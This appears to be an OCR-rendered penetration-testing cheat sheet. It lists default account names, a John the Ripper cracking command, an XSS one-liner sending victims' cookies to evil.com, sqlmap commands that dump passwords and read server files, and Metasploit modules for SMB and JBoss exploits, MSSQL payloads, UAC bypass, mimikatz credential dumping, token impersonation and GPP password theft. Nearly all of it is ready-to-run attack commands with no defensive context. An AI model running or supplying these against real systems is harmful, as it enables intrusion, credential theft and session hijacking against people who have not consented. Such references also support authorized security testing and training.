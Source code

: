 | **User List** |
| :--- |
| Root |
| Admin |
| Administrator |
| Manager |
| Crest |
| Crt |
| User |

**  
 PASSWORD CRACKING**

| **Command** | **Description** |
| :--- | :--- |
| john --wordlist=/usr/share/wordlists/rockyou.txt hashes | JTR default |

**WEB APP**

| **Command** | **Description** |
| :--- | :--- |
| document.write\('&lt;img src="[http://evil.com/x.gif?cookie=](http://evil.com/x.gif?cookie=)' + document.cookie + '" /&gt;\) | XSS steal cookie |
| sqlmap -u &lt;target&gt; -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/test.php" | Targeted scan |
| sqlmap -u[http://example.com](http://example.com/)--forms --batch --crawl=10 --cookie=jsessionid=12345 --level=5 --risk=3 |  |

**METASPLOIT**

| **Command** | **Description** |
| :--- | :--- |
| use auxiliary/scanner/http/dir\_scanner | Scan for directories |
| use auxiliary/scanner/http/jboss\_vulnscan | JBoss scan |
| use exploit/multi/http/jboss\_maindeployer | JBoss deploy |
| use auxiliary/scanner/mssql/mssql\_login | MSSQL cred scan |
| use exploit/windows/mssql/mssql\_payload | MSSQL payload |
| use auxiliary/scanner/mysql/mysql\_version | MySQL version scan |
| use auxiliary/scanner/mysql/mysql\_login | MySQL login |
| use auxiliary/scanner/oracle/oracle\_login | Oracle login |
| use exploit/windows/dcerpc/ms03\_026\_dcom | eazymode |
| use exploit/windows/smb/ms06\_040\_netapi | eazymode |
| use exploit/windows/smb/ms08\_067\_netapi | eazymode |
| use exploit/windows/smb/ms09\_050\_smb2\_negotiate\_func\_index | eazymode |
| run post/windows/gather/win\_privs | Show privs of current user |
| use exploit/windows/local/bypassuac \(check if x86/64 and set target\) | Bypass uac on win7+ |
| load mimikatz -&gt; wdigest | Dump creds |
| load incongnito -&gt; list\_tokens -&gt; impersonate\_token | Use tokens |
| use post/windows/gather/credentials/gpp | GPP |